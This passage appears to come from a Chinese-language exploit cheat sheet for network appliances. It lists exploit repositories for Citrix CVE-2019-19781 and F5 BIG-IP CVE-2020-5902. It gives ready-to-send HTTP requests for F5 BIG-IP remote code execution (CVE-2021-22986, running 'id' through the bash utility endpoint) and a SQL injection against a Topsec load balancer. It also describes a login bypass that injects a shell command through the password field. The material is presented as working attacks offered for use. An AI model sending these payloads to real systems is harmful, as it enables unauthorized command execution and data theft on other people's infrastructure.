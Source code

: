 exp：

- https://github.com/trustedsec/cve-2019-19781
- https://github.com/jas502n/CVE-2019-19781

#### F5 BIG-IP

##### 远程代码执行 CVE-2020-5902

exp：

- https://github.com/jas502n/CVE-2020-5902
- https://github.com/theLSA/f5-bigip-rce-cve-2020-5902

##### 远程代码执行 CVE-2021-22986

```
POST /mgmt/tm/util/bash HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46QVNhc1M=
X-F5-Auth-Token: 
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 41

{"command":"run","utilCmdArgs":"-c id"}
```

exp：

- https://github.com/h4x0r-dz/RCE-Exploit-in-BIG-IP
- https://github.com/Al1ex/CVE-2021-22986

#### 天融信 Top-app LB

##### SQL注入

```
POST /acc/clsf/report/datasource.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- &o=r_Speed&gid=0&lmt=10&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=
```

#### 无密码登录

```
任意用户名  密码：;id
```

### 0x07 VPN
